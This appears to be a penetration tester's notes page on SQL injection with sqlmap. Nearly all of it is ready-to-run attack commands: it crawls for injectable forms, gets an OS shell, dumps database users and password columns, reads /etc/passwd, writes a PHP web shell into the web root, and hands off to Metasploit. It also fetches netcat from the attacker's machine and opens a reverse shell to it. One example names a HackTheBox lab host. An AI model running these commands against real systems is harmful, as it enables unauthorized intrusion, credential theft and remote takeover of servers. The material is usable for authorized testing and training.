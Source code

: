 Operators Handbook pg 286
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
#### Crawl and discover SQL injections
```bash - kali
sqlmap -u http://$TARGET --forms --batch --crawl=10 --cookie=PHPSESSID=rqh1ck98suududihja1sl4ljck --level=5 --risk=3 --thread
```
#### os-shell with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell --fresh-queries
```
Choose an architecture, if you get "no output", redo, try other architecture.
Kali:
```bash - kali
cp /usr/bin/nc .
```
```bash - kali
wget "http://$KALI/nc" -O /tmp/nc
```
```bash - kali
chmod +x /tmp/nc
```
![[1._rlwrap]]
```bash - kali
/tmp/nc -e /bin/bash $KALI 443
```
#### sql-shell
In this example, we enumerate the tables with sqlmap
```bash - kali
proxychains sqlmap -u "$TARGET?id=1" -p job --sql-shell
```
```SQL
select user,password from mysql.user;
```
#### Password Cracking
```bash - kali
sqlmap -u $TARGET?id=1 --password --batch
```
#### File System Access
```bash - kali
sqlmap -u $TARGET?id=1 --privileges --batch
```
```bash - kali
sqlmap -u $TARGET?id=1 --current-user --batch
```
Test the following with /etc/passwd if Unix target.
```bash - kali
sqlmap -u $TARGET?id=1 --file-read=/xampp/htdocs/index.php --batch
```
Test the following with [[Port 22 - SSH  ~#Generate key upload to victim]].
```bash - kali
sqlmap -u $TARGET?id=1 --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```
#### Show databases with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --dbs --thread 5
```
#### Dump Databases
Retrieve DBs:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 --dbs
```
Dump entire Database:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --dump
```
Retrieve Tables:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --tables
```
Dump entire Table:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --dump
```
Retrieve Columns:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --columns
```
Dump Columns data:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts -C id,stats,title --dump
```
#### Show tables with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D information_schema --tables
```
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D mysql --tables
```
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D  vperformance_schema --tables
```
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D sys --tables
```
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --tables
```
#### Show columns with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --T users --columns
```
#### Dump column data with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm -T Users -C Username,Password --dump
```
#### SQLMAP to Metasploit
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-pwn --thread 5
```
#### SQLMAP read a file
```
sqlmap http://preprod-payroll.trick.htb/manage_user.php?id=1 -p id --file-read=/etc/passwd
```
then:
```
open /home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
```
and open files folder to find downloaded files.